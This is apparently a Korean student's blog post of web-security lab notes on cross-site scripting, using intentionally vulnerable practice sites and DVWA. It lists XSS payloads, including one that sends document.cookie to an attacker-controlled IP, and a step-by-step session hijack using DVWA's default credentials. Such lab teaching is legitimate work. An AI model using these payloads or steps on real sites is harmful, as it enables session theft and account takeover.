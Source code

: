 ```yaml
---
title: "웹 보안 실습 2"
date: 2024-11-17
categories: [정보보안, 웹 보안]
tags: [IT, Security, Web]
---
```


## **XSS (Cross-Site Scripting)**

### **취약한 사이트 실습**

#### **1. Acunetix 사이트**

- **URL**: `http://testphp.vulnweb.com/listproducts.php?cat=1`

**실습 스크립트**:
- `<script>alert("test")</script>`  
  브라우저에서 "test"라는 경고창 표시
- `<script>alert(document.cookie);</script>`  
  사용자의 쿠키 값을 경고창으로 표시


#### **2. AltroMutual 사이트**

- **URL**: [demo.testfire.net](https://demo.testfire.net)

**실습 스크립트**:
- `<script>alert("test")</script>`  
  브라우저에서 "test"라는 경고창 표시
- `<script>alert(document.cookie);</script>`  
  사용자의 쿠키 값을 경고창으로 표시
- `<script>location.href="http://www.naver.com";</script>`  
  사용자를 네이버 웹사이트로 리다이렉션

#### **3. DVWA 사이트 / Ubuntu Apache2**

1. 우분투 아파치 웹 서버 로그 남기기
![](assets/img/정보보안/실습/W_2-1.jpg)

2. DVWA에서 실행할 스크립트 작성
`<script>document.location='http://10.10.10.11/cookie?'+document.cookie</script?>`

3. DVWA XSS에서 실행 (admin/password 계정)

4. 우분투에서 로그 확인 (SSID)

5. 우분투에서 DVWA 접속 (pablo/letmein 계정)

6. f12 저장소의 SSID 값을 로그에서 확인한 값으로 변경

7. 새로고침 하면 admin계정으로 접속 됨